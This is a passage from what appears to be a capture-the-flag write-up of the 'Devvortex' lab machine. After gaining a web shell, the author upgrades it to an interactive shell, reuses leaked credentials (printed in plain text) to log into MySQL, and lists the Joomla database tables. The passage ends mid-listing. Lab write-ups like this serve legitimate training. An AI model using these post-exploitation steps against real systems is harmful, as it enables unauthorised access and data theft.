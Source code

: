 ## logan user access

After getting the web shell, I revised my notes, and I know I saw the database name. So I tried my web credentials on the MySQL database.

```
www-data@devvortex:~/dev.devvortex.htb/administrator$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tor$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
www-data@devvortex:~/dev.devvortex.htb/administrator$ export TERM=xterm 
export TERM=xterm
www-data@devvortex:~/dev.devvortex.htb/administrator$ export SHELL=/bin/bash
export SHELL=/bin/bash
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5290
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
```